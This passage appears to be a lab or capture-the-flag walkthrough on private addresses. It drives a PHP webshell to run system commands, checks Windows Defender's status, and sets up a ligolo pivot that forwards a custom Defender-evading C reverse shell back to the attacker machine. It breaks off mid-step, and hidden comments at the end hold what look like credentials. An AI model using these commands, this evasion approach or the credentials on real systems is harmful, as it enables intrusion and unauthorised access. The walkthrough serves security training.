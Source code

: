 
We don't know where the webshell hase been uploaded, but coming back to the directory brute force excercise we can try two options:

    /images               (Status: 301) [Size: 338] [--> http://10.200.95.31/images/]
    /img                  (Status: 301) [Size: 335] [--> http://10.200.95.31/img/]
    

The webshell responds to this URI:

    http://10.200.95.31/images/ws.php?c=whoami

And the web server is running as system:

    nt authority\system

I got some information about the system:

    http://10.200.95.31/images/ws.php?c=systeminfo
Response:

    Host Name: S-SRV01 OS Name: Microsoft Windows Server 2019 Datacenter OS Version: 10.0.17763
Then finger print AV:

    http://10.200.95.31/images/ws.php?c=powershell%20-c%20Get-MpComputerStatus

Response:

    AMEngineVersion : 1.1.18800.4 AMProductVersion : 4.18.2111.5 AMRunningMode : Normal AMServiceEnabled : True AMServiceVersion : 4.18.2111.5 AntispywareEnabled : True AntispywareSignatureAge : 906 AntispywareSignatureLastUpdated : 12/19/2021 8:25:06 AM AntispywareSignatureVersion : 1.355.510.0 AntivirusEnabled : True AntivirusSignatureAge : 906 AntivirusSignatureLastUpdated : 12/19/2021 8:25:08 AM AntivirusSignatureVersion : 1.355.510.0 BehaviorMonitorEnabled : True ComputerID : 2BBDBCD0-5284-4DC2-A485-BBF6999477D4 ComputerState : 0 DeviceControlDefaultEnforcement : N/A DeviceControlPoliciesLastUpdated : 6/12/2024 10:06:02 AM DeviceControlState : N/A FullScanAge : 4294967295 FullScanEndTime : FullScanStartTime : IoavProtectionEnabled : True IsTamperProtected : False IsVirtualMachine : True LastFullScanSource : 0 LastQuickScanSource : 2 NISEnabled : True ...

So Defender is certainly running. To get a stable reverse shell I thought to upload netcat for windows (nc64.exe), but I dont' konw why the command does not work:

    http://10.200.95.31/images/ws.php?c=nc64.exe%20-h
Returned an empty page. Probably defender is blocking the execution. Then I tried to use a simple C reverse shell that I coded, since at the moment of writing is not detected by Defender. You can get it [here](https://github.com/zinzloun/MalvasiaC). Change the server to point to the agent IP, the proceed to upload the file using the form. Then we have to configure to activate a listener in ligolo to forward the traffic to our attacker machine. In ligolo console issue the following command:

    [Agent : root@ip-10-200-95-33] » listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp

The command will start a listener to the agent on port 1234 and forward the traffic to our attacker machine (the proxy server). So on the malvasiac reverse shelle you have to set the server IP to point to the pivoting machine (the agent), in my case to 10.200.95.33

    http://10.200.95.31/images/ws.php?c=dir
       Volume in drive C has no label. Volume Serial Number is 3A33-D07B Directory of C:\web\htdocs\images 06/12/2024 02:32 PM
    . 06/12/2024 02:32 PM
    .. 06/12/2024 02:26 PM 143,583 malvasia.exe 06/12/2024 02:32 PM 45,272 nc64.exe 06/12/2024 11:57 AM 75 ws.php 3 File(s) 188,930 bytes 2 Dir(s) 14,440,493,056 bytes free 
To get a revershell directly to our attacker machine issue the following command:


[//]: # (admin:DBManagerLogin!)
[//]: # (Nothingtoworry!)